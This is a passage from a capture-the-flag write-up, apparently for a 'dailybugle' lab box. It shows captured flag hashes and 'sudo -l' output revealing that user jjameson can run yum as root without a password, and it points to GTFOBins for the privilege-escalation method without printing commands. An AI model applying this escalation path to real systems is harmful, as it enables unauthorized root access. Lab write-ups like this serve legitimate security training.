cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```

#### Root

##### Sudo -l
```sh
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
		
		User jjameson may run the following commands on dailybugle:
		    (ALL) NOPASSWD: /usr/bin/yum
```

We can exploit this by using [GTFObins](https://gtfobins.github.io/gtfobins/yum/#file-download):



If all works well, then we should be root!

#### Flag

```sh
eec3d53292b1821868266858d7fa6f79
```


